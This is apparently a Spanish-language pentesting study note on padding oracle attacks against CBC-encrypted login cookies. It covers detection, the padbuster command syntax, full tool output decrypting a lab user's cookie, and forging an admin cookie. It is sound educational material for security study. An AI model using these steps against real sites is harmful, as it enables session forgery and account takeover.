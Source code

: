 _______
- Tags: #explotacion  #web #explotacion  #padding_oracle_attack 
______
Esta vulnerabilidad ocurre cuando una página web utiliza el modo de encriptación por bloques CBC usando XORs para encriptar los datos de inicio de sesión en una cookie.

La siguiente página muestra como funciona este [modo de encriptación](https://pentesterlab.com/exercises/padding_oracle/course)

La idea principal es desencriptar una cookie actual de un usuario que hayas creado. Ver como es su estructura (user=darsel, username=darsel) etc. Para luego encriptar un texto que corresponda con la misma estructura pero con el usuario admin y así averiguar la cookie correspondiente a este.

### Detección
______
Básicamente, si al crear una cuenta y loguearte dos veces en la misma cuenta, ves que se te crea exactamente la misma cookie, y que al cambiarla por una invalida ves algún tipo de error o mal funcionamiento de la página lo mas probable es que sea *vulnerable*
_______

### Explotación
_______
La herramienta recomendable para explotar esta vulnerabilidad es padbuster:

**Ejemplo**

Hemos creado un usuario llamado "darsel" al que se le asigna la cookie ``Cookie: auth=%2BmSG2dYWG%2BMmewCoz%2FmXUQuuL4Q29LOS`` y siempre nos da la misma cookie.
Si la cambiamos por una inválida, la página presenta un error:
![[Pasted image 20240728153917.png]]

Uso:
![[Pasted image 20240728154208.png]]

``padbuster url textoencriptado numero_de_bytes_por_bloque``

*- Notas:*
	El número de bytes siempre tendrá que ser un múltiplo de 8, si no es 8, es cuestión de ir probando por sus múltiplos.
	El parámetro ``-cookies= `` es necesario para que la herramienta tenga acceso a la url que le hemos dado cuando esta solo se puede acceder con un usuario válido.

```
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1190

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1388    N/A
2 **    255     200     15      N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (112/256) [Byte 8]
[+] Success: (136/256) [Byte 7]
[+] Success: (143/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (82/256) [Byte 4]
[+] Success: (27/256) [Byte 3]
[+] Success: (240/256) [Byte 2]
[+] Success: (121/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 267b00a8cff99751
[+] Intermediate Bytes (HEX): 8f17e3abeb727a91
[+] Plain Text: user=dar

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (171/256) [Byte 8]
[+] Success: (112/256) [Byte 7]
[+] Success: (1/256) [Byte 6]
[+] Success: (50/256) [Byte 5]
[+] Success: (88/256) [Byte 4]
[+] Success: (150/256) [Byte 3]
[+] Success: (231/256) [Byte 2]
[+] Success: (163/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 0bae2f8436f4b392
[+] Intermediate Bytes (HEX): 551e6cadcafc9254
[+] Plain Text: sel

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=darsel

[+] Decrypted value (HEX): 757365723D64617273656C0505050505

[+] Decrypted value (Base64): dXNlcj1kYXJzZWwFBQUFBQ==

-------------------------------------------------------
```
  
Podemos ver que ha desencriptado con éxito la cookie y que nos ha devuelto ``user=darsel``. Sabiendo esto, podemos hacer la operación inversa encriptando el texto ``user=admin``:

![[Pasted image 20240728155518.png]]

![[Pasted image 20240728155532.png]]
________
## Bit flipper

Otra forma de explotar esta vulnerabilidad es a través de un ataque [Bit flipper](https://bernardoamc.com/cbc-bitflipping-attack/)
